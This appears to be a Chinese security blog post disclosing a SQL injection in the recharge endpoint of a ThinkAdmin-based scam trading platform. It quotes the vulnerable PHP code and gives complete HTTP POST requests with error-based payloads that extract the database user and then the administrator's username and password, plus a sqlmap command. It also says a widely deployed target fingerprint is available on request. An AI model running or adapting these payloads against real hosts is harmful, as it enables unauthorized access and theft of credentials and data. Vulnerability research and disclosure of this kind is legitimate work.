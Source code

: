 #  某诈骗微盘存在前台SQL注入漏洞  
原创 Mstir  星悦安全   2025-07-21 06:40  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
某八国语言微盘杀猪盘，前台一般可以直接注册开户，类似交易所，杠杆，后台一堆功能，用户钱包，提现，关系网，系统管理，Fofa量还挺大的，有6.5k  
  
**fofa指纹 : 在文末!**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ff2nTGAicZxYPDKkW7NaujwXEalmXLlib31pdaAZrGKuZEnyeQlLy12VBYQvmb3Z3YRyCicrQJ2lbibA/640?wx_fmt=png&from=appmsg "")  
  
前端:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ff2nTGAicZxYPDKkW7NaujwiaHutrNB2GHpC450iaxfJiazlia252I0xNA8DxicXPEpe3jYKSXeojqyyPw/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ff2nTGAicZxYPDKkW7NaujweYckorEUjIRc9IHoGRBKibTzMk2JnianicrxapI8ibTThhvuAqYY0vXvxA/640?wx_fmt=other&from=appmsg "")  
  
后端:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ff2nTGAicZxYPDKkW7NaujwhjnphG0ZF8oQCSr02mwAnwFhl4tEWxVDibs3HXVq97XKEIttl9aIaqA/640?wx_fmt=png&from=appmsg "")  
  
框架:ThinkAdmin Debug:True  
## 0x01 漏洞分析&复现  
  
**需前台普通用户登录**  
  
**位于 /application/index/controller/User.php 控制器的 dorecharge 方法，通过POST传入type参数，直接进入SQL查询字句，导致漏洞产生.**  
  
```
public function dorecharge(){  $uid = $this->app->session->get('uid');if(!$uid) $this->redirect('/index/login');if($this->app->request->isPost()){    $payments=Db::table('lc_payments')->where('id = '.$_POST['type'])->find();    $userinfo = Db::name('LcUser')->find($uid);    $orderid="CZ".$uid.$payments['title'].date('YmdHis',time()).mt_rand(10,99);    $add = array(      'orderid' => $orderid,      'uid' => $uid,      'money' => $_POST['money'],      'type' => $payments['title'],      'status' => 0,      'reason' => "用户前台充值",      'time' => date('Y-m-d H:i:s'),      'time2' => '0000-00-00 00:00:00'    );    $re = Db::name('LcRecharge')->insertGetId($add);    if($re){      $ok=array(        'code'=>1,        'info'=>lang('tips_do_success')      );return $ok;die;    }else{      $ok=array(        'code'=>0,        'info'=>lang('tips_do_failed').lang('key_contact_cs')      );return $ok;die;    }  }}
```  
  
Payload:  
```
POST /index/user/dorecharge HTTP/1.1Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7Cache-Control: max-age=0Connection: keep-aliveContent-Length: 17Content-Type: application/x-www-form-urlencodedCookie: think_var=hk; s47696c33=mp6s4pmvbpa4nqluhbdr7d3pvcHost: 192.168.140.128Origin: http://192.168.140.128Referer: http://192.168.140.128/index/user/dorechargeUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36type=GTID_SUBSET(CONCAT((SELECT (USER()))),2235)&money=1222
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ff2nTGAicZxYPDKkW7NaujwpDdr2Z1CDlxrCg5pp0omLeo0tcdqmnGflxapn15E8qvr3fgzqMH6Ig/640?wx_fmt=other&from=appmsg "")  
跑出管理员账户：  
```
POST /index/user/dorecharge HTTP/1.1Content-Length: 154Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7Cache-Control: max-age=0Content-Type: application/x-www-form-urlencodedCookie: s47696c33=9v1raoo6lcnhpshrs9p1elfr82; think_var=hkHost: 192.168.140.128Origin: http://192.168.140.128Referer: http://192.168.140.128/index/user/dorechargeUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36Connection: closetype=GTID_SUBSET(CONCAT((SELECT MID((IFNULL(CAST(username AS NCHAR),0x20)),1,190) FROM `fast`.`system_user` ORDER BY username LIMIT 0,1)),9985)&money=1222
```  
  
跑出管理员密码：  
```
POST /index/user/dorecharge HTTP/1.1Content-Length: 154Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7Cache-Control: max-age=0Content-Type: application/x-www-form-urlencodedCookie: s47696c33=9v1raoo6lcnhpshrs9p1elfr82; think_var=hkHost: 192.168.140.128Origin: http://192.168.140.128Referer: http://192.168.140.128/index/user/dorechargeUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36Connection: closetype=GTID_SUBSET(CONCAT((SELECT MID((IFNULL(CAST(password AS NCHAR),0x20)),1,190) FROM `fast`.`system_user` ORDER BY username LIMIT 0,1)),9985)&money=1222
```  
  
  
**Python sqlmap.py -r a.txt --level=3 --dbms=mysql**  
  
****  
****  
**在 yebstop 方法，id 参数同样存在注入，Payload相同，不再详写.**  
  
****  
****  
**投资需谨慎，谨防杀猪盘 !!!**  
  
## 0x02 Fofa指纹  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**关注公众号，发送 250721 获取Fofa指纹!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
  
